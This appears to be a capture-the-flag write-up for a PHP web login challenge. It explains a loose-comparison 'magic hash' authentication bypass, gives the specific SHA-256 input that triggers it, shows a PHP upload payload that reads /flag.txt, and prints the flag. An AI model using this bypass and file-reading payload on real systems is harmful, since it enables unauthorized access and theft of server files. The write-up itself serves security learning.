


After trying a few SQL injection queries, I realized that it's not work :(

I could also not see any flaws in the workflow and decided to check [the write-up in the internet](https://forum.cookiearena.org/t/cookie-arena-ctf-season-2-writeup-magic-login/92).
The key of this challenge is about [Loose Comparison in PHP](https://www.copterlabs.com/strict-vs-loose-comparisons-in-php/).

Inspecting the web, I found that code:
```php
if(isset($_POST['submit'])){ 
    $usr = mysql_real_escape_string($_POST['username']); 
    $pas = hash('sha256', mysql_real_escape_string($_POST['password'])); 
    
    if($pas == "0"){ 
        $_SESSION['logged'] = TRUE; 
        header("Location: upload.php"); // Modify to go to the page you would like 
        exit; 
    }else{ 
        header("Location: login_page.php"); 
        exit; 
    } 
}else{    //If the form button wasn't submitted go to the index page, or login page 
    header("Location: login_page.php");     
    exit; 
} 
```
We realize that if we can bypass `if($pas == "0")`, we can go to upload page
but no way to have an output `0` through the SHA256 hash function. Now the operator `==` is the flaw of this code with Loose Comparison.

In PHP, `0e...` is the exponent of zero, and we find an input that matches the condition that after going through the SHA256 hash function, it becomes a string starts with `0e`
I found that in [here](https://security.stackexchange.com/questions/171087/how-to-bypass-php-strings-comparison-for-sha256-string) wih input: `34250003024812`
After login with `<some_string>:34250003024812`


Upload a php file to the server with content:
```php
<?php echo file_get_contents('/flag.txt'); ?>
```
It's successfully uploaded and check this file, we gain the flag:

Flag: `CHH{PHP_m4g1c_tr1ck_0lD_but_g0lD_d8ead8568b9580e55b64cf03243d8d3e}`